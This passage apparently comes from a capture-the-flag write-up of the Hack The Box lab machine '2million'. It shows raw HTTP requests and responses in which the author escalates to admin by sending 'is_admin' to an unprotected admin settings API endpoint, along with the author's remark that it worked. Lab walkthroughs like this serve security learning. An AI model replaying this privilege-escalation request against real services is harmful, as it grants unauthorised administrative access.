 #### Request
```ruby
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101
Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 53

{
"email":"wln5t0n@htb.com",
"is_admin" : true
}
```

#### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:10:53 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 76

{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}
```

I changed the `is_admin` to `1` and yes it worked.
#### Request
```ruby
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 50

{
"email":"wln5t0n@htb.com",
"is_admin" : 1
}
```
